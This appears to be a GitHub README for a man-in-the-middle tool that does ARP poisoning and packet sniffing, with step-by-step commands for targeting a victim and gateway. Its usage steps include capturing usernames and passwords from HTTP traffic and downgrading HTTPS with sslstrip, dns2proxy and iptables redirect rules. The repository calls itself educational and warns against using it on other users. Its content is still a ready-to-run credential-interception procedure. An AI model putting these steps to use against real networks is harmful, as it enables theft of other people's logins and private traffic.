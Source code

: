 # MITM-tool
Man in the middle attack tool makes arp poisoning and packet listening. Usage descriptions are in the README file

MITM is known as one of the most common attack and this tool do this attack. This repo include arp poisoner and packet listener python files. This is educational repository so don't try this tool over other users. Firstly run arp_poisoner.py then packet_listener.py also you can use wireshark instead of packet_listener.py
![Image of Yaktocat](https://i0.wp.com/hackonology.com/wp-content/uploads/2019/10/man-in-the-middle-attack.png?w=893&ssl=1)

# Requirements

Operating system: Linux

Libraries: 
```bash
> pip install scapy 
> pip install sslstrip
```
# Arp poisoner usage
```bash
> python3 arp_poisoner.py -t <target ip> -g <gateway ip>
```

# Packet listener usage
if you want to see all packets by sent target user you should use option 1  
```bash
Option 1 ->  python3 packetlistener.py --all <interface>
```
if you want to see just user infos like username and password when a user go into http sites you should use option 2 
```bash    
Option 2 -> python3 packetlistener.py --userinfos <interface>
```

# HTTPS to HTTP downgrade
This tool is working on http websites, if you want to get https website's packets we need to downgrade https to http.
There is a tool called sslstrip for this, we need to use it and also dns2proxy tool should be installed.

**STEP 1**
```bash
root@kali:~#  git clone https://github.com/singe/dns2proxy
root@kali:~/dns2proxy#  iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
root@kali:~/dns2proxy#  iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
```
**STEP 2**
```bash
> python3 arp_poisoner.py -t <target ip> -g <gateway ip>
```
***STEP3*** 
```bash
> python3 packetlistener.py --userinfos <interface>    or    python3 packetlistener.py --all <interface>
```
**STEP 4**
```bash
> sslstrip
```
**STEP 5**
```bash
> python3 dns2proxy.py
```
